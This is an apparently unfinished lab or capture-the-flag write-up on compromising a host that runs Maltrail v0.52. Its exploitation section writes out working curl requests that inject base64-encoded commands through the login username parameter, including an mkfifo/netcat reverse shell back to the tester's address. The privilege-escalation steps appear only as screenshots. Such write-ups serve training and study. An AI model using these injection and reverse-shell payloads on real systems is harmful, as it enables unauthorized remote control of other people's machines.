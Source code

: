 #InProgress 
```IP

```
# Enumeration

## HTTP 80
apache 2.4.52
## HTTP 8338
maltrail v 0.52
# Exploitation

we search for mailtrail vulnerabilities, and we find command injection in the username parameter 

```
echo 'ping -c 5 192.168.45.176' | base64
```
```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cGluZyAtYyA1IDE5Mi4xNjguNDUuMTc2Cg==\"+|+base64+-d+|+sh`'
```
we can successfully ping ourselves
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204103745.png?raw=true)
After some trial and error, I got a revshell the following mkfifo payload set on local port 80:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc  192.168.45.176 80 >/tmp/f
```

```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAgMTkyLjE2OC40NS4xNzYgODAgPi90bXAvZg==\"+|+base64+-d+|+sh`'
```

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204110845.png?raw=true)

we find the following file

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114500.png?raw=true)
with pspy64 we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114717.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115148.png?raw=true)

we receive the revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115217.png?raw=true)


## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114628.png?raw=true)
### Mimikatz

# Lateral Movement

